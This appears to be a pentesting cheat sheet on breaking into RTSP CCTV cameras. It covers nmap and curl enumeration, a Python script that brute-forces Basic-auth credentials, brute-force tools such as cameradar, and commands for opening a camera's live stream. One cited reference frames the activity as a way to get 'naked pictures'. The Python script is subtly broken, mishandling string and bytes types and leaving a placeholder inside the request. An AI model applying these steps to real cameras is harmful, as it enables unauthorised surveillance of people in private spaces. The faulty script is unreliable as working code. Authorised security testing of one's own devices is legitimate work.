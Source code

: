 ```yaml
---
title: "RTSP CCTV Cam Testing"
tags:
- sheets
---
```


## What is RTSP ?
The Real Time Streaming Protocol is an application-level used in entertainment and communications systems to control streaming media servers. Similar to **HTTP**, clients can issue commands such as: play, record, pause, etc. It's commonly used by IP cameras.

**Default ports**: `554`, `8554`, `5554`
**Syntax**: `rtsp://user:password@ip:port/route`


## Enumeration
- `nmap` has some convenient scripts when it comes to attacking RTSP. So just run them: `nmap -sV --script "rtsp-*" -p <PORT> <IP>`
	- ![[write-ups/images/Pasted image 20220805163325.png]]
	- the output will give you possible valid methods and URLs that are supported
	- ![[write-ups/images/Pasted image 20220805163532.png]]
- can also manually confirm it with `curl -i -X OPTIONS rtsp://<IP>:<PORT>/<ROUTE>`
	- a valid RTSP response should look similar to this
		```bash
		RTSP/1.0 200 OK
		CSeq: 1
		Date: Tue, Dec 08 2020 09:56:12 GMT
		Public: OPTIONS, DESCRIBE, SETUP, TEARDOWN, PLAY, GET_PARAMETER, SET_PARAMETER
		```
	

## Brute-Force
- Basic auth with python
	- to create a basic auth req, we can use the `DESCRIBE` method & base64 encode our username/password
		```bash
		DESCRIBE rtsp://<ip>:<port> RTSP/1.0\r\nCSeq: 2\r\nAuthorization: Basic YWRtaW46MTIzNA== # admin:1234
		```
	- some python-fu  to automatically try this
		```python
		import socket
		from base64 import b64encode
	
		HOST  = "192.168.1.1"
		PORT  = 554
		CREDS = "admin:1234"
	
		req = f"DESCRIBE rtsp://<ip>:<port> RTSP/1.0\r\nCSeq: 2\r\nAuthorization: Basic {b64encode(CREDS)}\r\n\r\n"
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((HOST, PORT))
		s.sendall(req)
	
		data = s.recv(1024)
		print(data)
		```

### Even Easier
if you don't want to do this manually / create your own scripts, the community got you
- [rtsp_authgrinder.py](https://github.com/Tek-Security-Group/rtsp_authgrinder) quick / simple tool to brute force credentials on RTSP services
- [cameradar](https://github.com/Ullaakut/cameradar): an all-in-one tool which allows you to: detect open RTSP hosts, detect device model, launch dictionary attacks on routes & credentials
	- `cameradar -r routes.txt -t 192.168.1.131 -v -p 554 -c creds.json`
	- `docker run -t ullaakut/cameradar -t <target> <other command-line options>`

## Seeing the RTSP Stream
```bash
ffplay -loglevel 32 -rtsp_transport tcp -i rtsp://:@192.168.1.131/ -probesize 32 -analyzeduration
mpv rtsp://192.168.1.131/live.sdp
cvlc rtsp://192.168.1.131/Streaming/Channels/1
```


## Refs
- [Haktricks Pentesting rtsp](https://book.hacktricks.xyz/network-services-pentesting/554-8554-pentesting-rtsp)
- [Real Time Streming Protocol RFC](https://www.rfc-editor.org/rfc/rfc2326.html)
- [RTSP Brute Forcing for fun and naked pictures?](https://web.archive.org/web/20161020202643/http://badguyfu.net/rtsp-brute-forcing-for-fun-and-naked-pictures/)
- [Can't access cam with custom route isssue](https://github.com/Ullaakut/cameradar/issues/142)

## See Also